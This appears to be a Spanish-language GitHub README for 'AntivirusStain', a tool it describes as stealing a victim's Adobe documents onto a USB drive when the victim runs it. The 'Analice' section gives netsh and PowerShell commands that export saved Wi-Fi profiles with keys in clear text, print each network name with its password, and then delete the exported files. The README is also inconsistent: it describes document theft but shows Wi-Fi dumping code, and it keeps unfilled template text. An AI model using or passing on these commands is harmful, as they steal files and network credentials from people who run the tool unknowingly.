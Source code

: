 # AntivirusStain

AntivirusStain roba todo lo que es documento de Adobe y las copia a una USB cuando la victima lo ejecute la aplicaciÃ³n.
![](https://2.bp.blogspot.com/-Jpa300XYoVA/W_-YJ_a9BkI/AAAAAAAACIM/S3hLHke0eqQgEpzNPkPKxuD1ilT7d5VVwCLcBGAs/s1600/Captura.PNG)

- MAS  https://www.lpericena.tk/2018/06/wi-fi.html

### Pre-requisitos
_Que cosas necesitas para instalar el software y como instalarlas_

```
 - windows 7/10
 - USB 
```

### Instalacion
```
Ejecutar el programa Wifi.exe existe varias versiones para windows 7/10
```
_Y repite_
```
hasta finalizar
```

## Ejecutando las pruebas
![](https://2.bp.blogspot.com/-pcjveMFRyPs/WzgG7BZfUJI/AAAAAAAALec/2jhy6c3UqpUxq9fIqICch4UjsSG5w6EMwCLcBGAs/s1600/wifi.png)
visita la pagina web para que puedas ver el proceso de la instalaci¨®n y el uso
https://www.lpericena.tk/2018/06/wi-fi.html

### Analice 
```
Rem --- Wifi-Export ---
md c:\Config-WiFi
netsh wlan export profile "XXXXXXXXX" folder=c:\Config-WiFi
Rem --- Wifi-Import ---
netsh wlan add profile filename="c:\Config-WiFi\XXXXXXXXX.xml" user=current
-Mostar las Wifis configuradas:
wlan show profiles
-Exportar todas las Wifi configuradas:
wlan export profile
-Exportar un SSID concreto:
wlan export profile name=”SSID_DESEADO” folder=”carpeta de destino”
-Para importar un SSID en concreto:
wlan add profile filename=”SSID_RED.xml”
mkdir wifi
cd wifi
netsh wlan export profile key=clear
dir *.xml |% {
$xml=[xml] (get-content $_)
Write-Host $xml.WLANProfile.SSIDConfig.SSID.name `t $xml.WLANProfile.MSM.Security.sharedKey.keymaterial
}
cd ..
rmdir -recurse wifi
```


## Deployment 
#### LICENSE
- Permisos
```
* Uso comercial
* Distribucion
* Modificacion
* Uso de patentes
* Uso privado
```
- Condiciones	Limitaciones
```
*  Revelar la fuente
*  Aviso de licencia y copyright
*  Misma licencia
*  Cambios de estado
*  Responsabilidad
*  Garant¨ªa
```
## Construido con* [Notepad++](https://notepad-plus-plus.org/download/) - Editor de texto (IDE)

_Menciona a todos aquellos que ayudaron a levantar el proyecto desde sus inicios_

* **Luishi?o Pericena Choque ** - *Desarrollo del software* - [Pericena](https://github.com/Pericena)

Tambi¨¦n puedes mirar la lista de todos los [contribuyentes](https://github.com/Pericena/Antivirus-Stain/contributors) qu¨ªenes han participado en este proyecto. 

## Licencia ??

Este proyecto est¨® bajo la Licencia (Licencia publica general de GNU) - mira el archivo [LICENSE.md](LICENSE.md) para detalles

---
Por [Pericena](https://github.com/Pericena)
